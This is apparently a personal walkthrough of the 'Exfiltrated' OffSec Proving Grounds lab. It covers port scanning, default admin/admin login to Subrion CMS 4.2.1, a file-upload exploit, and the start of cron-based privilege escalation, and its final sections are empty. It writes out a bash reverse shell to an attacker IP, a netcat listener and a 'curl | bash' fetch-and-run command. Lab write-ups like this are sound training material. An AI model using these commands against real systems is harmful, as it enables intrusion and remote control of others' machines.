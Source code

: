 ```yaml
---
description: 11/22/2021
---
```


# Exfiltrated (Easy)

## Information Gathering

Scanned all TCP ports:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
|_http-favicon: Unknown favicon MD5: 09BDDB30D6AE11E854BFF82ED638542B
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
All 1000 scanned ports on exfiltrated.offsec (192.168.90.163) are in ignored states.
```

Notes:

* 80/HTTP - <mark style="color:yellow;">added exfiltrated.offsec to /etc/hosts</mark>
  * CMS- Subrion -- Can we enumerate the version? -- Yes, <mark style="color:yellow;">v4.2.1</mark>
  * Apache 2.4.41
* Perform quick win attempt with searchsploit on both services above

## Enumeration

### Port 80 - HTTP (Apache) -- exfiltrated.offsec

Visual Inspection:

<figure><img src="../../../.gitbook/assets/image (7) (2) (3).png" alt=""><figcaption></figcaption></figure>

Wappalyzer:

<figure><img src="../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

Searchsploit results of Subrion CMS:

<figure><img src="../../../.gitbook/assets/image (3) (3) (3).png" alt=""><figcaption></figcaption></figure>

Enumerated Subrion Version:

* Found via selecting the "Go to admin dashboard" button on the main site

<figure><img src="../../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

* Version has been enumerated <mark style="color:yellow;">Subrion v4.2.1</mark>
* We have 4 exploits that are targeted towards this version

### Subrion Default Credentials

A simple Google search for Subrion Default Creds gives us this first site with lucrative and guessable information

<figure><img src="../../../.gitbook/assets/image (5) (10).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">Attempted admin/admin login and it worked!</mark>

### Subrion Admin Panel

<figure><img src="../../../.gitbook/assets/image (13) (1) (3).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### 49876.py (Arbitrary File Upload)

<figure><img src="../../../.gitbook/assets/image (4) (12).png" alt=""><figcaption></figcaption></figure>

* Viewed the python exploit in gedit to ensure I was using the proper syntax!
* I also had to copy/paste the explicit directory from the URL bar to the terminal for it to get the correct path (side note)
* However, this shell was really buggy so I ended up transferring a bash reverse shell to upgrade my shell

### Upgrading Web Shell -> Reverse Shell

Create bash reverse shell (rev\_shell):

```
#!/bin/bash
bash -i >& /dev/tcp/192.168.49.90/1337 0>&1
```

Start Netcat listener:

```
nc -lnvp 1337
```

Start HTTP server on Kali:

```
python3 -m http.server 80
```

Transfer w/ curl:

```
curl 192.168.49.90/rev_shell | bash
```

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (17) (5).png" alt=""><figcaption><p>Terminator Command Window</p></figcaption></figure>

Upgrade Shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

* Time to priv esc!

## Privilege Escalation

### Local enumeration

<mark style="color:yellow;">Cronjobs</mark>

```
cat /etc/crontab
```

<figure><img src="../../../.gitbook/assets/image (20) (4).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">/opt/image-exif.sh</mark> looks interesting
* I tried to replace the file and delete it with no luck

{% embed url="https://grumpygeekwrites.wordpress.com/2021/09/07/offensive-security-pg-practice-exfiltrated-walk-through-tutorial-writeup/" %}

### PrivEsc vector

## Proofs
